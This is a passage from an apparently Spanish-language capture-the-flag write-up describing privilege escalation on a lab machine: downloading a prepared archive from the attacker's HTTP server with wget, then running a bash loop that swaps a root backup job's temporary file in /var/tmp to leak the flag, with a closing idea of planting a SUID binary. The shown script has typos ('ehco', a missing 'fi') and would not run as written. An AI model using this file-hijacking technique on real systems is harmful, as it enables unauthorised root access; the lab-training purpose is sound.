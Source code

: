         ```bash
        python3 -m http.server 80
        ```

    - en la maquina victima

        ```bash
        wget http://10.10.14.8/comprimido.tar
        ```

1. creamos un script para ejecutar el secuestro

    ```bash
    touch tehijackeolavida.sh
    chmod +x tehijackeolavida.sh
    nano tehijackeolavida.sh
    ```

    que contiene

    ```bash
    #!/bin/bash

    while true; do
        filename=$(ls -ls /var/tmp/ | awk 'NF{print $NF}' | grep -oP '^\..*[a-f0-9]')

        if [ $filename ]; then
            ehco -e "\n[+] El nombre de archivo es $filename\n"
            rm /var/tmp/$filename
            cp comprimido.tar /var/tmp/$filename
            echo -e "\n[+] Archivo hijiackeado con exito\n"
            exit 0
    done
    ```

1. Ejecutamos el script 

    ```bash
    ./tehijackeolavida.sh
    ```

Cuando la pantalla nos muestre el mensaje 
```bash
 [+] Archivo hijackeado con exito 
```
, podemos mirar el fichero 
```bash
 /var/backup/onuma_backup_error.txt 
```
 
y 30 segundos mas tarde tendriamos que ver la flag.

```bash
while true; do cat /var/backup/onuma_backup_error.txt ; sleep 1; clear; done
```

Ya podemos ver la flag.

### Rootear la maquina de verdad {-}

Podríamos crear un binario en C con SUID para que lo deposite root en html, lo que nos permitiria rootear la maquina.